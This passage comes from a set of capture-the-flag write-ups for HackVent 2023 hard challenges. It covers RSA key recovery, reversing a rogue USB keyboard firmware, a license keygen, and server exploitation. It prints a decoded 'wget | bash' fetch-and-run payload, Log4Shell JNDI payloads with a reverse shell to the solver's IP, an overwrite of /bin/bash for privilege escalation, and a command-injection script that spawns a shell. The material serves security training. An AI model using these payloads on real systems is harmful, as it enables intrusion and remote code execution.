    File Inode Change Date/Time     : 2023:12:16 18:01:54-05:00
    File Permissions                : -rwxrwx---
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 55
    Image Height                    : 42
    Bit Depth                       : 8
    Color Type                      : RGB
    Compression                     : Deflate/Inflate
    Filter                          : Adaptive
    Interlace                       : Noninterlaced
    Comment                         : Key Info: 0x10001
    Image Size                      : 55x42
    Megapixels                      : 0.002
    

This is almost certainly an RSA reference, where 0x10001 is a very common
value for `e`.

#### Weird Pixels

The image is only 55 x 42 pixels. If I zoom way in, two don’t fit quite right:

Moving right to left across each row, then down to the next row, the first is
about halfway through the image, and then the other is the last pixel.

#### Recover Private Key

In order for this key to be an RSA private key (which could then decrypt
`flag.enc`), it would have to contain the `p` and `q` values, two large
primes. I tried a lot of things, but it turned out to be very simple. Take the
bytes of the image. The first half is `p`, and the second half is `q`. I’ll do
this in Python:

    
    
    from PIL import Image
    from Crypto.Util.number import isPrime, bytes_to_long, long_to_bytes
    
    image = Image.open('0c56b3c2-b017-4c6f-b6a8-a565df124012.png')
    
    image_bytes = image.tobytes()
    l = len(image_bytes)
    p = bytes_to_long(image_bytes[:l//2])
    q = bytes_to_long(image_bytes[l//2:])
    
    print(isPrime(p), isPrime(q))
    

The `isPrime` calls both just hang. This is promising, as it suggests they are
either prime or at least there’s no obvious factors. Rather than wait, I’ll
proceed as if they are. From `p` and `q`, I’ll calculate `n` and `d`, and use
them to decrypt the flag. The result is an image, which I’ll write to a file:

    
    
    from PIL import Image
    from Crypto.Util.number import isPrime, bytes_to_long, long_to_bytes
    
    image = Image.open('0c56b3c2-b017-4c6f-b6a8-a565df124012.png')
    
    image_bytes = image.tobytes()
    l = len(image_bytes)
    p = bytes_to_long(image_bytes[:l//2])
    q = bytes_to_long(image_bytes[l//2:])
    
    #print(isPrime(p), isPrime(q))
    
    n = p*q
    e = 0x10001
    phi_n = (p-1) * (q-1)
    d = pow(e, -1, phi_n)
    
    with open('flag.enc', 'rb') as f:
        enc = bytes_to_long(f.read())
    
    pt = pow(enc, d, n)
    
    with open('flag.png', 'wb') as f:
        f.write(long_to_bytes(pt))
    

It take a long time to run (almost four minutes), when when it completes, it
creates `flag.png`:

    
    
    oxdf@hacky$ time python solve.py 
    
    real    3m56.764s
    user    3m56.720s
    sys     0m0.030s
    

It’s a QRcode:

**Flag:`HV23{Thanks_for_finding_my_key}`**

## HV23.18

### Challenge

 | HV23.18 Evil USB  
---|---  
Categories: |  REVERSE_ENGINEERING   
Level: | hard  
Author: |  coderion   
  
> An engineer at SantaSecCorp has found a suspicious device stuck in the USB
> port of his computer. It doesn’t seem to work anymore, but we managed to
> dump the firmware for you. Please help us find out what the device did to
> their computer.

The download has two files:

    
    
    oxdf@hacky$ unzip -l evil-usb.zip 
    Archive:  evil-usb.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
        23180  2023-12-12 23:15   firmware.elf
        21814  2023-12-12 23:15   firmware.hex
    ---------                     -------
        44994                     2 files
    
    

### Solution

#### firmware.elf

`fireware.elf` is an executable, in Atmel 8-bit assembly, which is most
commonly know as what runs on Arduino platform:

    
    
    oxdf@hacky$ file firmware.elf 
    firmware.elf: ELF 32-bit LSB executable, Atmel AVR 8-bit, version 1 (SYSV), statically linked, with debug_info, not stripped
    

Some of the strings in the binary confirm this is Arduino code:

    
    
    Arduino LLC        
    Arduino Leonardo 
    

The string `atmega32u4` is also present, which will be helpful when opening in
Ghidra.

There are a bunch of strings that include “keyboard”:

    
    
    _ZN9Keyboard_10sendReportEP9KeyReport.constprop.8
    _ZN9Keyboard_5writeEPKhj
    _ZN9Keyboard_5writeEh
    KeyboardLayout_de_DE
    Keyboard
    _ZTV9Keyboard_
    _ZGVZN9Keyboard_C4EvE4node
    _ZZN9Keyboard_C4EvE4node
    KeyboardLayout_en_US
    

There’s some other strings that are a good hint as to where to look:

    
    
    Scheduled activation in 
     hours
    Running payload... Never gonna give you up btw
    base64 -d data > data_decoded
    bash data_decoded
    

This implies that some base64 data will be written and then run. It seems like
this USB is likely emulating a keyboard, and sending commands.

#### Reverse Engineer

I’ll open the file in Ghidra to take a look, making sure to set the language
to AVR8.

The `main` function does a lot of populating globals, then eventually calls
`setup` followed by an empty `while True` loop:

    
    
      setup(0xd);
      do {
      } while( true );
    }
    

The code in `setup` is super messy, but looking for things that jump out, this
little loop is interesting:

    
    
          R25R24 = (undefined1 *)0x6900;
          do {
            pbVar6 = (byte *)Z;
            pSVar4 = X;
            Z = (String *)((byte *)Z + 1);
            R25R24._0_1_ = (String)*pbVar6;
            R25R24._0_1_ = (String)((byte)R25R24._0_1_ ^ R25R24._1_1_);
            X = X + 1;
            *pSVar4 = R25R24._0_1_;
          } while ((byte)Z != (byte)R19R18 || Z._1_1_ != (char)(R19R18._1_1_ + ((byte)Z < (byte)R19R18))
                  );
    

The first line there is loading 0x69 into R25 and 0 into R24. Then it loops
over Z, storing it in R24, and XORing it with R25 (0x69). A bit before this
loop, `Z` is set to `DAT_mem_0119`:

    
    
    Z = (String *)&DAT_mem_0119;
    

Looking in the data section, that’s an array of bytes:

#### Decode

I’ll select all the bytes down through 0x01f0, right click, and “Copy Special”
> Python Byte String:

In a Python REPL, I’ll decode the string:

    
    
    oxdf@hacky$ python
    Python 3.11.6 (main, Oct 23 2023, 22:48:54) [GCC 11.4.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> data = b'\x0c\x0a\x01\x06\x49\x0d\x5b\x0d\x05\x0d\x2a\x2b\x06\x0d\x21\x3b\x1e\x0a\x13\x06\x1f\x25\x5b\x0d\x19\x0a\x5a\x38\x1c\x33\x5b\x05\x59\x08\x21\x3f\x00\x0d\x31\x27\x05\x0a\x04\x27\x1f\x0b\x07\x3b\x05\x0b\x07\x38\x1c\x30\x5b\x50\x1d\x25\x5b\x0d\x19\x30\x3e\x5c\x1b\x0b\x21\x3f\x07\x25\x13\x33\x02\x30\x3d\x30\x13\x30\x3d\x28\x5a\x27\x2e\x3c\x5b\x27\x03\x23\x02\x26\x2d\x30\x10\x24\x3e\x38\x11\x24\x5b\x33\x04\x27\x5b\x2f\x04\x30\x13\x0a\x59\x33\x2e\x3c\x11\x25\x5a\x23\x01\x0d\x10\x51\x58\x33\x03\x30\x58\x26\x2d\x02\x10\x26\x3d\x23\x01\x27\x3e\x24\x11\x33\x03\x24\x5a\x27\x2d\x27\x02\x27\x2e\x38\x1e\x33\x03\x30\x10\x24\x04\x27\x05\x26\x2d\x23\x05\x26\x2d\x28\x5c\x26\x2e\x2f\x01\x24\x2d\x24\x5d\x25\x5b\x01\x1f\x0b\x3e\x3f\x5a\x0b\x5a\x23\x1b\x25\x07\x3b\x5d\x0d\x2a\x28\x1d\x3d\x10\x28\x1d\x20\x21\x1e\x0e\x30\x04\x2f\x13\x08\x28\x06\x54\x49\x57\x49\x0d\x08\x1d\x08'
    >>> ''.join(chr(x^0x69) for x in data)
    'echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= > data'
    

This is creating the `data` file that’s later run with `bash`. I’ll decode it
myself:

    
    
    oxdf@hacky$ echo d2dldCBodHRwczovL2dpc3QuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2dpYW5rbHVnLzZkYTYzYTA3NGU2NjJkODYyMWQxM2ZmN2FmYzc0ZGUxL3Jhdy81ZjY1ODkyOTJhNWMxZjM3NDNkNGQwZjYyMmNlODJlODA5OGFhMDM4L2hvbWV3b3JrLnR4dCAtTyAtIHwgYmFzaAo= | base64 -d
    wget https://gist.githubusercontent.com/gianklug/6da63a074e662d8621d13ff7afc74de1/raw/5f6589292a5c1f3743d4d0f622ce82e8098aa038/homework.txt -O - | bash
    

It’s fetching a file from GitHub and piping it into Bash. The file is a Bash
script:

    
    
    #!/bin/bash
    wget https://gist.githubusercontent.com/gianklug/5e8756afc93211b15fe995f469add994/raw/5d5b86307181309c4bbbe021c94d75b9e07e6f8c/gistfile1.txt -O - | base64 -d > cat.png
    

It’s fetching another file, base64 decoding it, and saving it as `cat.png`.
I’ll do that, and get this:

The flag is a comment in the metadata:

    
    
    oxdf@hacky$ exiftool cat.png 
    ExifTool Version Number         : 12.40
    File Name                       : cat.png
    Directory                       : .
    File Size                       : 1983 KiB
    File Modification Date/Time     : 2023:12:18 12:30:14-05:00
    File Access Date/Time           : 2023:12:18 12:30:15-05:00
    File Inode Change Date/Time     : 2023:12:18 12:30:14-05:00
    File Permissions                : -rwxrwx---
    File Type                       : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    Image Width                     : 3440
    Image Height                    : 1440
    Bit Depth                       : 8
    Color Type                      : RGB with Alpha
    Compression                     : Deflate/Inflate
    Filter                          : Adaptive
    Interlace                       : Noninterlaced
    Significant Bits                : 8 8 8 8
    Exif Byte Order                 : Big-endian (Motorola, MM)
    Comment                         : HV23{4dru1n0_1s_fun}
    Image Size                      : 3440x1440
    Megapixels                      : 5.0
    

**Flag:`HV23{4dru1n0_1s_fun}`**

## HV23.19

### Challenge

 | HV23.19 Santa's Minecraft Server  
---|---  
Categories: |  PENETRATION_TESTING  
LINUX  
Level: | hard  
Author: |  mocjtseb   
  
> Santa likes to play minecraft. His favorite version is 1.16. For security
> reasons, the server is not publicly accessible. But Santa is a little show-
> off, so he has an online map to brag about his fabulous building skills.

There is only a docker for this challenge. It presents what looks like a
[Minecraft](https://www.minecraft.net/en-us) world map:

### Foothold

#### Enumeration

The prompt says that this is Minecraft version 1.16. [This
page](https://minecraft.fandom.com/wiki/Java_Edition_1.16) details that
version, including that it was released in June 2020.

Immediately what comes to mind for me is Log4Shell, a vulnerability
([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) in a
common Java logging library, Log4j. When this vulnerability went public in
December 2021, Minecraft servers were a very common target. [This
page](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-
Vulnerability-in-Minecraft-Java-Edition) from Minecraft talks about needing to
patch the server. For this version:

#### Log4Shell POC

To test for Log4Shell, I’ll use a simple payload (using my HackingLab VPN tun0
IP):

    
    
    ${jndi:ldap://10.13.0.30/test}
    

If the server is vulnerable, when it tries to log this, it will initiate an
LDAP connection to my server. I’ll start `nc` on my host and send that payload
into the chat box in the website. Almost immediately, there’s a connection at
`nc`:

    
    
    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 152.96.15.3 59140
    0
     `
    
    

I can’t decipher what’s sent, but that’s not the point. I’ve got the server
requesting something over LDAP.

#### Shell

I’ll use [this exploit](https://github.com/kozmer/log4j-shell-poc) by cloning
it to my VM, installing the required packages, and starting a `nc` listener on
TCP 443. I’ll invoke the script with the following options:

  * `--userip 10.13.0.30` \- This tells the script my IP for communications with the server.
  * `--webport 8000` \- The LDAP response is going to trigger a connection back on HTTP to get a serialized Java payload. This option tells the exploit where to listen for that.
  * `--lport 443` \- I want the reverse shell to connect back on 443.

When I run this, it gives the payload to send to the target:

    
    
    oxdf@hacky$ python poc.py --userip 10.13.0.30 --webport 8000 --lport 443
    
    [!] CVE: CVE-2021-44228
    [!] Github repo: https://github.com/kozmer/log4j-shell-poc
    
    [+] Exploit java class created success
    [+] Setting up LDAP server
    
    [+] Send me: ${jndi:ldap://10.13.0.30:1389/a}
    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    
    Listening on 0.0.0.0:1389
    

When I send that payload through the chat, first there’s a hit at the exploit:

    
    
    Send LDAP reference result for a redirecting to http://10.13.0.30:8000/Exploit.class
    152.96.15.3 - - [19/Dec/2023 22:40:46] "GET /Exploit.class HTTP/1.1" 200 -
    

And then at my `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 152.96.15.3 38106
    

To upgrade my shell, I’ll get a PTY with `script`, background, update the
`stty`, and `fg` (the standard trick explained
[here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

    
    
    script /dev/null -c bash
    Script started, file is /dev/null
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$
    

This is a functional shell as the server user:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:~$ id
    uid=101(server) gid=65534(nogroup) groups=65534(nogroup)
    

### Privesc

#### Enumeration

There are two key things to notice on this host. The first is the directory in
the system root, `santas-workshop`. It has two files:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/santas-workshop$ ls -l
    total 24
    -rwsr-sr-x. 1 santa root 16752 Dec 18 21:17 tool
    -rwxrwxrwx. 1 root  root   467 Dec 11 21:10 tool.c
    

`tool.c` is the source code for `tool`, which is a binary set to run as the
santa user and the root group.

It basically runs `/bin/bash`:

    
    
    #include <unistd.h>
    #include <stdio.h>
    
    void debugShell() {
            printf("Launching debug shell...\n");
            char *argv[] = { "/bin/bash", 0 };
            execve(argv[0], &argv[0], NULL);
    }
    
    void main() {
            printf("--- Santas Workshop Tool ---\n");
            printf("Pick an action:\n");
            printf("s) debug shell\n");
            printf("-- more options to come\n");
    
            char option;
            scanf("%c", &option);
    
            switch (option) {
            case 's': debugShell(); break;
            default: printf("Unknonwn option!\n"); break;
            }
    }
    

Even though this program runs as santa / root, the resulting shell is still as
server:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/santas-workshop$ ./tool
    --- Santas Workshop Tool ---
    Pick an action:
    s) debug shell
    -- more options to come
    s
    Launching debug shell...
    bash-4.2$ id
    uid=101(server) gid=65534(nogroup) groups=65534(nogroup)
    

That’s because `bash` “drops privileges” in this case - when the real userid
(101) and the effective userid (1000 for santa) are different, it drops the
effective unless `-p` is given.

The other thing to notice is that `bash` is odd. I actually first picked this
up with the `dpkg --verify` trick I learned in Day 15:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/$ dpkg --verify | grep -v " /usr/share"   
    ??5??????   /bin/bash
    

When I remove a bunch of documentation stuff in `/usr/share`, this is all
that’s left.

I wasted a bunch of time exfiling and analyzing this binary, but there is
something else odd about it - the permissions:

    
    
    server@919aa3ae-cfaa-4370-9567-f5595549a43e:/$ ls -l /bin/bash
    -rwxrwxrwx. 1 root root 959120 Dec 10 19:58 /bin/bash
    

`bash` is world-writable.

#### bash Overwrite

[This post I wrote](/2022/05/31/setuid-rabbithole.html) in 2022 goes into
detail about Linux uid/euid/ruid and how calling different processes via
`system` and `execve` handles these ids.The short answer here is that I want a
payload that will set all of the user ids to santa (and all of the group ids
to root). That looks like this:

    
    
    #define _GNU_SOURCE
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(void) {
        setresuid(1000, 1000, 1000);
        setresgid(0, 0, 0);
        system("/bin/sh");
        return 0;
    }
    

It’s using `setresuid`, which changes the real, effective, and saved user id
to 1000, which is santa. I can’t go to root here, as the `tool` binary runs as
uid 1000, and Linux blocks that escalation. I do also set the group ids to
root, as the group id from `tool` is root, so this is allowed.

I’m also calling `/bin/sh` with `system`, not `/bin/bash`. I’m going to
overwrite `bash` with this, so I don’t want to get in a loop of calling
itself.

I’ll compile it, get a backup copy of `bash`, and then overwrite `/bin/bash`
with the new binary:

    
    
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ gcc shell.c -o shell
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ cp /bin/bash .
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ cp shell /bin/bash
    

When I run `tool`, the resulting shell has uid=1000, and gid =0:

    
    
    server@3a753154-c61d-4c9f-8f19-f8d71d4918e6:~$ /santas-workshop/tool
    --- Santas Workshop Tool ---
    Pick an action:
    s) debug shell
    -- more options to come
    s
    Launching debug shell...
    $ id
    uid=1000(santa) gid=0(root) groups=0(root),65534(nogroup)
    

That’s enough to read the flag:

    
    
    $ cd /home/santa
    $ cat flag.txt
    HV23{d0n7_f0rg37_70_upd473_k1d5}
    

**Flag:`HV23{d0n7_f0rg37_70_upd473_k1d5}`**

## HV23.20

### Challenge

 | HV23.20 Santa's Candy Cane Machine  
---|---  
Categories: |  REVERSE_ENGINEERING   
Level: | hard  
Author: |  keep3r   
  
> As Santa wanted to start producing Candy Canes for this years christmas
> season, his machine wouldn’t work anymore. All he got was some error message
> about an “expired license”. Santa tried to get support from the
> manufacturer. Unfortunately, the company is out of business since many
> years.
>
> One of the elves already tried his luck but all he got out of the machine
> was a `.dll`!
>
> Can you help Santa license his Candy Cane machine and make all those kids
> happy for this years christmas?
>
> * * *
>
> If you’re stuck, just relax and enjoy this image (_this is**not** part of
> the challenge. It’s only for eye candy, seriously_)

The challenge offers a docker instance and a file, `CandyCaneLicensing.dll`, a
32-bit .Net DLL:

    
    
    oxdf@hacky$ file CandyCaneLicensing.dll 
    CandyCaneLicensing.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
    

### Application

The docker offers a webpage that has a nice old-school Windows look to it:

The image looks broken, and the bottom says that the license is expired.
Clicking the License tab shows the key:

If I change a character and submit (in this case the last characters “2” ->
“3”), it updates:

### Reverse Engineering

#### Orienting

I’ll open this in [DotPeek](https://www.jetbrains.com/decompiler/) and take a
look. It has four classes:

I’ll note that it runs on .NETCore 7.0.

The `CandyCaneLicense` class seems like the starting point:

    
    
    namespace CandyCaneLicensing
    {
      public class CandyCaneLicense
      {
        private CandyCaneBlock candyCane;
    
        public static CandyCaneLicense? Create(string serial)
        {
          CandyCaneLicense candyCaneLicense = new CandyCaneLicense();
          return CandyCane.DecodeBlock(serial, out candyCaneLicense.candyCane) && candyCaneLicense.RangesAreValid() ? candyCaneLicense : (CandyCaneLicense) null;
        }
    
        public DateTime GetExpirationDate() => CandyCaneLicense.UnixToDateTime(this.candyCane.Expiration);
    
        public DateTime GetRegistrationDate() => CandyCaneLicense.UnixToDateTime(this.candyCane.Generation);
    
        public bool IsExpired() => this.GetExpirationDate() < DateTime.Now;
    
        private bool RangesAreValid() => this.candyCane.Expiration > 1621805003U && this.candyCane.Generation > 1621805003U && ProductLicense.IsProductDefined((int) this.candyCane.Product) && ProductLicense.IsProductTypeDefined((int) this.candyCane.Type);
    
        private static DateTime UnixToDateTime(uint unix) => new DateTime(1970, 1, 1, 0, 0, 0, 0, DateTimeKind.Utc).AddSeconds((double) unix).ToUniversalTime();
    
        public int Count => (int) this.candyCane.Count;
    
        public DateTime ExpirationDate => this.GetExpirationDate();
    
        public ProductLicense.ProductNames ProductName => (ProductLicense.ProductNames) this.candyCane.Product;
    
        public ProductLicense.ProductTypes ProductType => (ProductLicense.ProductTypes) this.candyCane.Type;
    
        public DateTime RegistrationDate => this.GetRegistrationDate();
      }
    }
    

It has a bunch of functions to check things about the license, but it also has
a `Create` function that takes a string, `serial`. That creates a new
`CandyCaneLicense` object, and then calls `DecodeBlock` and `RangesAreValid`,
and if so, returns the object (otherwise returning null).

`RangesAreValid()` checks that:

  * `Expiration` > 23 May 2021
  * `Generation` > 23 May 2021
  * `Product` is 0-1
  * `Type` is 0-2

#### DecodeBlock

This function takes the string and feeds it through a pipeline to validate the
input:

    
    
          if (!CandyCane.StringToArray(str, out arr) || !CandyCane.UnshuffleArray(arr) || !CandyCane.ArrayToBinary((IReadOnlyList<byte>) arr, out bin))
            return false;
    

If any of`StringToArray`, `UnshuffleArray`, or `ArrayToBinary` fail, then the
function returns `false`.

Then it creates a new 25 byte array, copies the first 16 bytes from the output
of that pipeline into it, and turns that into a `CandyCaneBlock`:

    
    
          IntPtr num = Marshal.AllocHGlobal(25);
          Marshal.Copy(bin, 0, num, 16);
          block = (CandyCaneBlock) Marshal.PtrToStructure(num, typeof (CandyCaneBlock));
    

It then sets `block.Shuffle` to be the value of the last byte of the output of
the pipeline, and returns if the time is valid for both generation and
expiration:

    
    
          block.Shuffle = arr[24];
          return CandyCane.IsValidTime(block.Expiration) && CandyCane.IsValidTime(block.Generation);
    

#### StringToArray

The most important function here is `StringToArray`, as it defines the valid
input:

    
    
        private static bool StringToArray(string str, out byte[] arr)
        {
          arr = (byte[]) null;
          if (str == null || str.Length != 29 || str[5] != '-' || str[11] != '-' || str[17] != '-' || str[23] != '-')
            return false;
          int num = 0;
          arr = new byte[25];
          for (int index = 0; index < 29; ++index)
          {
            if (index <= 11)
            {
              if (index == 5 || index == 11)
                continue;
            }
            else if (index == 17 || index == 23)
              continue;
            byte candy = CandyCane.candyMap[(int) str[index] & (int) byte.MaxValue];
            if (candy >= (byte) 32)
              return false;
            arr[num++] = candy;
          }
          return true;
        }
    

Effectively, it loops over 29 bytes, making sure that it’s five blocks
separated by “-“. The “-“ are skipped, and all other values are mapped from
`CandyCane.candyMap`. If any of those return 255, it returns `false`. Looking
at the map, it effectively takes the numbers 0-9 and uppercase letters A-Z and
removes 0, 1, I, and O (characters that could be ambiguous). Then it maps
those to ints, so 2 -> 0, 3 -> 1, 9-> 7, A -> 8, B -> 9, H -> 15, J -> 16, and
Z-> 31.

#### UnshuffleArray and ArrayToBinary

`UnshuffleArray` and `ArrayToBinary` are where I decided to not try to reverse
the process. `UnshuffleArray` takes the bytes and reorders them via a series
of “Horizontal” and “Vertical” mixers based on the last byte in the array and
a sum based on all the values in the array.

`ArrayToBinary` takes the 25 byte array and converts it to a 16 byte array by
taking eight bytes at a time, shifting them around and ORing them together,
and then extracting five bytes out. The three groups of eight make 15 bytes
out, and the last byte is just appended.

#### CandyCaneBlock

The resulting 16 bytes are turned into a `CandyCaneBlock block`, which has has
16 bytes:

### Brute Force

#### Create Project

I’ll make sure I have [.NET 7.0 installed](https://dotnet.microsoft.com/en-
us/download/dotnet/7.0), and then open Visual Studio and make a new project.
I’ll senect a C# Console A

Now I’ll give the project a name and location:

On the next screen, I’ll make sure to select .NET 7.0 and click “Create”. On
the right side is the “Solution Explorer”. I’ll right click on “Dependencies”
and select “Add Project Reference…”:

I’ll find `CandyCaneLicensing.dll` under “Browse” and add it. It shows up
under “Assemblies”:

#### Verify Debug / Import

The project opens with a `Program.cs` file with a simple “Hello World” script:

I’ll want to make sure I can run this, because I’m not super comfortable with
C#, and I want to run often as I add things. I’ll click the play button next
to “Solve-Day20” and see that it builds and a console pops up with “Hello,
World!”:

I’ll now try to import `CandyCaneLicensing` and create an object using the
expired key from the website:

It works!

#### Generate Random Key

Brute-forcing over all possible keys would take way too long. But, there are
many valid keys, so I’ll just generate random keys until I find a valid one.

First I’ll make a function to generate a random key (shoutout to ChatGTP for
the assist here):

    
    
    static string GenerateRandomLicense()
    {
        string charset = "23456789ABCDEFGHJKLMNPQRSTUVWXYZ";
        Random random = new Random();
        StringBuilder result = new StringBuilder();
    
        for (int i = 0; i < 5; i++)
        {
            for (int j = 0; j < 5; j++)
            {
                int randomIndex = random.Next(charset.Length);
                result.Append(charset[randomIndex]);
            }
            if (i < 5 - 1)
            {
                result.Append('-');
            }
        }
        return result.ToString();
    }
    

I’ll add a `Console.WriteLine` to the end to test this, and it seems to work:

#### Generate Valid Key

If I pass an invalid key to `CandyCaneLicense.Create`, it returns null. So I
can use a loop to find a valid one that also isn’t expired:

    
    
    CandyCaneLicense ccl;
    string key;
    do
    {
        key = GenerateRandomLicense();
        ccl = CandyCaneLicense.Create(key);
        //} while (ccl == null || ! ccl.ExpirationDate.ToString("yyyy-MM").Equals("2023-12"));
    } while (ccl == null || ccl.IsExpired());
    
    Console.WriteLine(ccl.ExpirationDate.ToString("yyyy-MM-dd"));
    Console.WriteLine(key);
    

When I run this, it gives a key:

It’s _way_ in the future, but it works:

On the “Machine” tab, there’s a flag:

**Flag:`HV23{santas-k3ygen-m4ster}`**

## HV23.H3

### Challenge

 | HV23.H3 Santa's Secret  
---|---  
Categories: |  FUN   
Level: | hard  
Author: |  keep3r   
  
> Not once, not twice, but three times Santa has hidden something in one of
> his gifts now!? Unbelievable…

### Solution

I’ll notice something in the JavaScript that controls the page. The speed of
the belt depends on the `speed` variable used to call `startAnimation`:

    
    
        function startAnimation(speed) {
            $("#conveyor-belt")[0].setCurrentTime(0);
            $("#signal .signal-color").attr("fill", "#198754");
    
            let candySpeed = 10;
            let wheelSpeed = 5;
            if (speed === 1) {
                candySpeed = 5;
                wheelSpeed = 3;
            } else if (speed === 2) {
                candySpeed = 2;
                wheelSpeed = 1;
            }
            for (let i = 0; i <= 10; i++) {
                $("#candy" + i + " animatemotion").attr("begin", candySpeed/10*i);
                $("#candy" + i + " animatemotion").attr("dur", candySpeed);
            }
            $("#wheel-left animateTransform").attr("begin", 0);
            $("#wheel-left animateTransform").attr("dur", wheelSpeed);
            $("#wheel-right animateTransform").attr("begin", 0);
            $("#wheel-right animateTransform").attr("dur", wheelSpeed);
            console.log("done");
        }
    

The function the processes license responses is `license`, which calls
`startAnimation`:

    
    
        function license(data) {
            $("#licenseKey").val(data.licenseKey);
            $("#flag").text(data.flag);
            if (!data.isValid) {
                $("#statusBar").text("License is invalid");
                stopAnimation();
                return;
            }
    
            if (data.isExpired) {
                $("#statusBar").text("License is expired at " + data.expirationDate);
                stopAnimation();
                return;
            }
    
            if (!data.isExpired) {
                $("#statusBar").text("License is valid until " + data.expirationDate);
                startAnimation(data.productType);
                return;
            }
    

The `productType` is what’s passed in as speed. The DLL defines three product
types:

    
    
        public enum ProductTypes
        {
          Standard,
          Advanced,
          Premium,
        }
    

But those get mapped to 0, 1, and 2. There’s also two product names defined in
the code:

    
    
        public enum ProductNames
        {
          CandyCaneMachine,
          CandyCaneMachine2000,
        }
    

I’ll update my code to force a valid key that is Premium and the
CandyCaneMachine2000:

    
    
    CandyCaneLicense ccl;
    string key;
    do
    {
        key = GenerateRandomLicense();
        ccl = CandyCaneLicense.Create(key);
    } while (ccl == null || ccl.IsExpired() || ccl.ProductType != ProductLicense.ProductTypes.Premium || ccl.ProductName != ProductLicense.ProductNames.CandyCaneMachine2000);
    

This key presents the hidden flag:

**Flag:`HV23{sup3r-h1dd3n-k3yg3n-fl4g}`**

## HV23.21

### Challenge

 | HV23.21 Shopping List  
---|---  
Categories: |  EXPLOITATION   
Level: | hard  
Author: |  Fabi_07   
  
> Santa still needs to buy some gifts, but he tends to forget things easily.
> That’s why he created his own application: A shopping list with state-of-
> the-art hacker protection.

There’s a download and a docker.

### Application

#### Files

The download comes with two files:

    
    
    oxdf@hacky$ ls
    Dockerfile  solve_unintended.py  vuln
    

The `Dockerfile` just shows running `vuln` with `socat`:

    
    
    FROM docker.io/library/ubuntu:23.04
    
    RUN apt update && apt -y upgrade
    RUN apt install -y socat
    
    COPY . .
    
    RUN chmod +x vuln
    
    ENTRYPOINT ["socat", "TCP-LISTEN:1337,reuseaddr,fork", "EXEC:\"./vuln\""]
    

#### Connect

Running `./vuln` or connecting to the remote instance provides a menu:

    
    
    oxdf@hacky$ nc 152.96.15.4 1337
    Shoppinglist creator 📋      
    The first and last you will ever need, with state-of-the-art hacker protection.
                                                        
    What do you want to do?        
    [a]dd a item                                        
    [l]ist items
    [f]etch shopping list from file
    [s]ave your shopping list
    [e]dit a item
    [c]hange the quantity of a item
    [r]emove a item
    [q]uit
     >
    

Without looking at the binary, it’s clear that this is a classic Heap
exploitation problem. Each of the menu options allow for what they describe.

### Unintended Solution

#### Explanation

There is a simple unintended solution here using the list and writing to a
file. There is code in the file write that checks for “/” in the filename, and
overwrites the flag if it’s found. What it doesn’t protect against is the same
trick from [Day 13](/hackvent2022/medium#overwrite-challpy-method-3),
overwriting the challenge file.

I’ll connect to the instance and:

  * “a” to add an item.
  * ”|| cat flag” as the item name.
  * Any number for the number.
  * ”s” to save the shopping list.
  * Filename is “vuln”.

I can run this locally and save to `test` (no reason to overwrite my `vuln`
binary). `test` will look like:

    
    
    oxdf@hacky$ cat test 
    # Shopping list
     - 10x || cat flag
    

Then if I run `test`:

    
    
    oxdf@hacky$ echo "HV23{dummy_flag}" > flag
    oxdf@hacky$ bash test
    test: line 2: -: command not found
    HV23{dummy_flag}
    

#### Script

This Python script will perform this exploit, print the flag (which is a
QRcode), and run bash to give an interactive shell:

    
    
    from pwn import *
    
    IP = "152.96.15.6"
    
    #r = process('./vuln')
    r = remote(IP, 1337)
    
    # create malicious item
    r.sendlineafter(b'> ', b'a')
    r.sendlineafter(b'> ', b'|| cat flag; echo; /bin/bash')
    r.sendlineafter(b'> ', b'1337')
    
    # save to file
    r.sendlineafter(b'> ', b's')
    r.sendlineafter(b'> ', b'vuln')
    
    # quit
    r.sendlineafter(b'> ', b'q')
    r.close()
    
    r = remote(IP, 1337)
    r.interactive()
    

Running it works:

The QRCode returns the flag.

**Flag:`HV23{heap4the_win}`**

### Intended Solution

I ran out of time before I got to implement the intended solution. From the
author:

> Intended was to free a large chunk and use a bufferoverflow to write data up
> to the address which leads to libc leak
>
> When creating a item with count of 1337 you get the win functions address
>
> Then you can use the bufferoverflow to overwrite a pointer pointing it to
> the environment symbol in libc
>
> From there you find the stack address, and you can abuse the pointer once
> more to cause the program to jump to the win function

[« medium](/hackvent2023/medium)[leet »](/hackvent2023/leet)

